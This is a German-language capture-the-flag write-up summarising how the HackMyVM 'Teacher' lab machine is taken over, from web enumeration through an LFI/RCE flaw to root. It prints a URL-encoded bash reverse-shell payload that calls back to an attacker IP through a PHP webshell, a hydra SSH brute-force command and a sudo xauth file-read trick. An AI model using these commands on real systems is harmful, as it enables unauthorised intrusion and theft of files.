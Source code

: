 # Teacher - HackMyVM (Easy)
 
![Teacher.png](Teacher.png)

## Übersicht

*   **VM:** Teacher
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Teacher)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 24. Oktober 2023
*   **Original-Writeup:** https://alientec1908.github.io/Teacher_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Teacher"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), auf dem die PHP-Dateien `/log.php` und `/access.php` gefunden wurden. Ein Kommentar in `/index.html` enthüllte die Benutzernamen `avijneyam` und `mrteacher`. Mittels `wfuzz` wurde eine Schwachstelle im `id`-Parameter von `access.php` identifiziert, die eine LFI/RCE (vermutlich durch Log Poisoning oder direktes Schreiben über LFI) ermöglichte. Eine PHP-Webshell wurde in `log.php` platziert und über `log.php?cmd=` ausgeführt, um eine Reverse Shell als `www-data` zu erhalten. Als `www-data` wurde die User-Flag im Home-Verzeichnis von `mrteacher` gelesen. Nach einer Phase der Metasploit-Exploration (die nicht direkt zum Erfolg führte) und dem Download einer PDF-Datei (`e14e...pdf`) wurde vermutlich aus dieser eine Passwortliste (`password2.txt`) abgeleitet. `hydra` knackte damit das SSH-Passwort (`ThankYouTeachers`) für `mrteacher`. Als `mrteacher` zeigte `sudo -l`, dass `/bin/xauth` und `/bin/gedit` als `root` ohne Passwort ausgeführt werden durften. Die Root-Flag wurde durch Ausnutzung von `sudo xauth source /root/root.txt` und anschließendem `xauth list` exfiltriert.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `wfuzz`
*   `curl` (impliziert)
*   `nc` (netcat)
*   `python` (python3)
*   `pty`
*   `find`
*   `cat`
*   `ls`
*   `cd`
*   `which`
*   `export`
*   `Metasploit` (msf6)
*   `hydra`
*   `ssh`
*   `apt`
*   `sudo`
*   `wget`
*   `chmod`
*   `linpeas.sh`
*   `xauth`
*   `echo`
*   `john`
*   `unshadow`
*   Standard Linux-Befehle (`id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Teacher" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.114`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH - OpenSSH 8.4p1) und 80 (HTTP - Apache 2.4.54).
    *   `gobuster` auf Port 80 fand `/index.html`, `/log.php`, `/access.php` und `/clearlogs.php`.
    *   Ein Kommentar in `/index.html` enthielt die Benutzernamen `avijneyam` und `mrteacher`.
    *   `wfuzz` auf `access.php` identifizierte den Parameter `id` als potenziellen LFI/RCE-Vektor.

2.  **Initial Access (LFI/RCE zu `www-data`):**
    *   Ausnutzung der Schwachstelle in `access.php?id=` (vermutlich LFI zum Schreiben einer Webshell in `log.php` oder eine direkte Command Injection, die das Schreiben ermöglicht).
    *   Platzieren einer PHP-Webshell (``) in `log.php`.
    *   Ausführung eines Bash-Reverse-Shell-Payloads über die Webshell: `http://192.168.2.114/log.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[Angreifer-IP]%2F9001%200%3E%261%27`.
    *   Erlangung einer interaktiven Shell als `www-data` nach Stabilisierung.

3.  **Privilege Escalation (von `www-data` zu `mrteacher`):**
    *   User-Flag `9cd1f0b79d9474714c5a29214ec839a6` in `/home/mrteacher/user` gelesen.
    *   Exploration mit Metasploit (`shell_to_meterpreter`, `local_exploit_suggester`) führte nicht direkt zum Erfolg.
    *   Download einer PDF-Datei (`e14e...pdf`) vom Webserver. *Annahme: Aus dieser PDF wurde eine Passwortliste `password2.txt` erstellt.*
    *   `hydra -l mrteacher -P password2.txt ssh://teacher.hmv:22` knackte das SSH-Passwort: `ThankYouTeachers`.
    *   Erfolgreicher SSH-Login als `mrteacher`.

4.  **Privilege Escalation (von `mrteacher` zu `root` via `sudo xauth`):**
    *   `sudo -l` als `mrteacher` zeigte: `(ALL : ALL) NPASSWD: /bin/gedit, /bin/xauth`.
    *   Ausnutzung von `xauth` zum Auslesen der Root-Flag:
        1.  `sudo -u root xauth source /root/root.txt` (liest die Datei intern)
        2.  `xauth list` (zeigt den Inhalt der gelesenen Datei als "Magic Cookie" an)
    *   Die Ausgabe von `xauth list` enthielt die Root-Flag `b3386aefd470a6e309e54bc1be5eb774`.

## Wichtige Schwachstellen und Konzepte

*   **Informationsleck in HTML-Kommentar:** Enthielt Benutzernamen.
*   **Local File Inclusion (LFI) / Remote Code Execution (RCE):** Eine Schwachstelle in `access.php` (Parameter `id`) ermöglichte das Ausführen von Befehlen, vermutlich durch Log Poisoning oder direktes Schreiben einer Webshell.
*   **Passwort-Cracking (SSH):** Ein Benutzerpasswort wurde mittels `hydra` und einer abgeleiteten Wortliste geknackt.
*   **Unsichere `sudo`-Konfiguration (`xauth`):** Die Erlaubnis, `/bin/xauth` als `root` ohne Passwort auszuführen, ermöglichte das Auslesen beliebiger Dateien, auf die Root Lesezugriff hat, durch Missbrauch der `source`- und `list`-Funktionen.
*   **Metasploit Exploration:** Versuch, mit Standard-Exploits und Suggestern zu eskalieren (hier nicht direkt erfolgreich).

## Flags

*   **User Flag (`/home/mrteacher/user`):** `9cd1f0b79d9474714c5a29214ec839a6`
*   **Root Flag (ausgelesen via `xauth`):** `b3386aefd470a6e309e54bc1be5eb774`

## Tags

`HackMyVM`, `Teacher`, `Easy`, `LFI`, `RCE`, `PHP`, `Password Cracking`, `Hydra`, `sudo Exploitation`, `xauth`, `Metasploit`, `Linux`, `Web`, `Privilege Escalation`
